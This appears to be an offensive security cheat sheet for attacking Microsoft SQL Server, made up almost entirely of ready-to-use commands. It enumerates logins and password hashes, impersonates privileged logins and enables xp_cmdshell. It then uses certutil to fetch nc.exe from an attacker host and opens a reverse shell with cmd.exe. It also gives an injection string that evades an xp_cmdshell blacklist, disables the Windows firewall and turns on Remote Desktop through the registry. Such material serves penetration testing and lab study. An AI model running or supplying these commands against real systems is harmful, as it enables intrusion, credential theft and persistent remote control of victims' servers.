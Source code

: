 ### **INTRODUCTION**

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It is designed to handle a wide range of data processing tasks within corporate environments. MSSQL uses SQL (Structured Query Language) to manage databases and process queries.

### **MSSQL ENUMERATION**

1.  Login using Windows authentication:  
    `python3 mssqlclient.py [USERNAME]@[IP-ADDRESS] -windows-auth`
2.  Login without Windows authentication:  
    `python3 mssqlclient.py [DOMAIN]/[USERNAME]@[IP-ADDRESS]`
3.  List SQL user accounts and their status: 
    ```sql
    select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
    ```
    
4.  Show all databases:  
    `SELECT name FROM master.dbo.sysdatabases`  

    ??? info "NOTE"

        Default databases include `master`, `tempdb`, `model`, and `msdb`.

5.  Switch to specific database:  
    `use [DATABASE-NAME];`
6.  Bypass "access denied" error (OPTIONAL):  
    `ERROR: Line 1: The server principal "MAXIM\hackfast" is not able to access the database "[DATABASE-NAME]" under the current security context.`
7.  Find users with impersonation privileges (OPTIONAL):  
    `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
8.  Impersonate another login (OPTIONAL):  
    `EXECUTE AS LOGIN = '[LOGIN-NAME]'`
9.  Switch to specific database:  
    `use [DATABASE-NAME]`
10. List all tables in the database:  
    `SELECT * FROM [DATABASE-NAME].INFORMATION_SCHEMA.TABLES;`
11. Query a specific table:  
    `select * from [TABLE-NAME];`

### **ACCESS AND REVERSE SHELL TECHNIQUES**

1.  Login to MSSQL using Windows authentication:  
    `python3 mssqlclient.py [USERNAME]@[IP-ADDRESS] -windows-auth`
2.  Login to MSSQL without Windows authentication:  
    `python3 mssqlclient.py [DOMAIN]/[USERNAME]@[IP-ADDRESS]`
3.  Check if xp_cmdshell is enabled:  
    `SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';`
4.  Enable advanced options to allow setup for xp_cmdshell:  
    `EXEC sp_configure 'show advanced options', 1; RECONFIGURE;`
5.  Enable xp_cmdshell to allow SQL Server to execute command-line operations:  
    `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
6.  Set up the HTTP server to host nc.exe, create a C:\\temp folder on the target, transfer nc.exe, and execute it for a reverse shell:  
    `xp_cmdshell 'mkdir C:\temp'`,`go`
7.  Download nc.exe to the Target Machine:  
    `xp_cmdshell 'certutil -split -urlcache -f http://[IP-ADRESS]/nc.exe C:\temp\nc.exe'`,`go`
8.  Confirm that nc.exe has been placed on the target system:  
    `xp_cmdshell 'dir C:\temp'`,`go`
9.  Execute nc.exe to establish a reverse shell to the attacker's machine:  
    `xp_cmdshell 'C:\temp\nc.exe [IP-ADRESS] 443 -e cmd.exe'` ,`go`
10. Bypass blacklisted xp_cmdshell:  
    `'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping [IP-ADRESS]' —`
11. Disable the Windows Firewall to reduce defenses against external attacks:  
    `xp_cmdshell 'netsh firewall set opmode disable';`
12. Modify the registry to enable Remote Desktop, allowing remote access to the system:  
    `xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Control\\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f';`